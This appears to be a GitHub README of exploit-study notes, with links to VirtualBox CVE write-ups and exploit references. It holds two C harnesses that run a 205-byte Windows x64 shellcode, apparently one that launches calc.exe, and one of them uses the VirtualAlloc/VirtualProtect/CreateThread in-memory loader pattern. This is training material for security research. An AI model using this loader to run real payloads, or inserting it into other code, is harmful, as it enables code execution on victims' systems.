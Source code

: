 # Exploit-Application
> Target Analysis CVE
- `VirtualBox`
  * [CVE-Virtual Box](https://qriousec.github.io/post/vbox-pwn2own-2023/) .
  * https://starlabs.sg/blog/2020/04-adventures-in-hypervisor-oracle-virtualbox-research/ .
  * https://github.com/hongphipham95/Vulnerabilities .


- References:
  * `Browser Exploit`: https://github.com/qazbnm456/awesome-cve-poc#cve-2011-2856
  * `LPEworkshop`: https://github.com/sagishahar/lpeworkshop
  * `Modern Binary Difing`: https://docs.google.com/presentation/d/1aLPjH3_4v6Zt2cwzROzMKVBqf8w7vwYfzJCRFbA-xGQ/edit#slide=id.p
  * `Github star`: https://github.com/stars/nigmaz/lists/writeup-exploit-training
  * Questions
    + Begin analysis CVE Linux app service ?
    + Beginner to Advanced Bug Bounty Hunting Course ?


- Shellcode Test
```c
#include <windows.h>
#include <stdio.h>

char code[] = "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
"\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
"\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
"\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
"\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0"
"\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2"
"\x48\x83\xec\x20\x41\xff\xd6";

int main(int argc, char **argv)
{
  int (*func)();
  func = (int(*)()) code;
  (int)(*func)();
}
```

- https://www.exploit-db.com/shellcodes/49819

```c
// runShellcode.c
// C Shellcode Run Code referenced from reenz0h (twitter: @sektor7net)
#include <windows.h>
void main() {
    void* exec;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
    // Shellcode
    unsigned char payload[] =
        "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
        "\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
        "\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
        "\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
        "\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0"
        "\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2"
        "\x48\x83\xec\x20\x41\xff\xd6";
    unsigned int payload_len = 205;
    exec = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec, payload, payload_len);
    rv = VirtualProtect(exec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);
    WaitForSingleObject(th, -1);
}
```

